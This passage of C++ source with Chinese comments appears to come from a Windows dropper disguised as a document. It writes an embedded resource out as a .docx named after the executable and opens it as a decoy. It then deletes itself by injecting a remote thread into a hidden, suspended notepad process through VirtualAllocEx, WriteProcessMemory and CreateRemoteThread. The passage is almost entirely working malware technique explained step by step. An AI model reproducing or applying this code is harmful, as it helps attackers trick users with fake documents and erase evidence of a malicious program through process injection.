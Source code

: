 ```cpp
    strrchr得到第二个参数最后出现的位置
    d:\\xxxxx\\xxxxxx\\xxxx.exe在执行后得到\\xxxx.exe
    所以需要+1把\\去掉
    最后得到了完整的文件名
    用strcpy_s把文件名复制到FileName中
    */
    for (size_t i = 0; i < MAX_PATH; i++)
    {
        if(FileName[i] == '.')
        {
            FileName[i + 1] = 'd';
            FileName[i + 2] = 'o';
            FileName[i + 3] = 'c';
            FileName[i + 4] = 'x';
            break;
        }
    }
    //循环找文件名中的.，找到后将文件名的后缀改为docx
    //这个步骤主要是为了方便，以后只需要改exe的名称不需要到代码中来改
    HANDLE FILE = CreateFileA(FileName, FILE_ALL_ACCESS, 0, NULL, CREATE_ALWAYS, 0, NULL);
    //创建文件名相同的文件
    DWORD dwSize;
    WriteFile(FILE, PFILE, FileSize, &dwSize, NULL);
    // 把资源文件中的内容写入

    SHELLEXECUTEINFOA shellexecute = { 0 };
    shellexecute.cbSize = sizeof(shellexecute);
    shellexecute.lpFile = FileName;
    shellexecute.nShow = SW_SHOW;
    ShellExecuteExA(&shellexecute);
    //打开docx文件

    //下面是实现自删除，网上的自删除方法有很多，用的多的是批处理，这里是创建一个进程然后用远程线程注入来让notepad删除当前程序
    STARTUPINFOA si = { 0 };
    PROCESS_INFORMATION  pi = { 0 };
    CreateProcessA("c:\\windows\\system32\\notepad.exe", 0, 0, 0, TRUE, CREATE_NO_WINDOW | CREATE_SUSPENDED, 0, 0, &si, &pi);
    //创建进程
    DeleteStruct DS;
    DS.dwDeleteFile = GetProcAddress(GetModuleHandleA("kernel32.dll"), "DeleteFileA");
    GetModuleFileNameA(NULL, DS.dwDeleteFile_param_1, MAX_PATH);
    //创建远程线程不能直接使用API，需要把函数指针放在结构中传过去
    //这里需要DeleteFileA这个函数，用GetProcAddress得到指针后传过去

    LPVOID ADDRESS = VirtualAllocEx(pi.hProcess, 0, 2048, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    WriteProcessMemory(pi.hProcess, ADDRESS, &threadProc, 2048, 0);
    //为函数开辟一块内存

    LPVOID pRemoteParam = VirtualAllocEx(pi.hProcess, 0, sizeof(DS), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    WriteProcessMemory(pi.hProcess, pRemoteParam, &DS, sizeof(DS), 0);
    DWORD RETSIZE;
    //为参数开辟一块内存
    HANDLE Thread = CreateRemoteThread(pi.hProcess, NULL, NULL, (LPTHREAD_START_ROUTINE)ADDRESS, pRemoteParam, 0, &RETSIZE);
    //执行该线程
    CloseHandle(Thread);
    //关闭句柄

}
```

---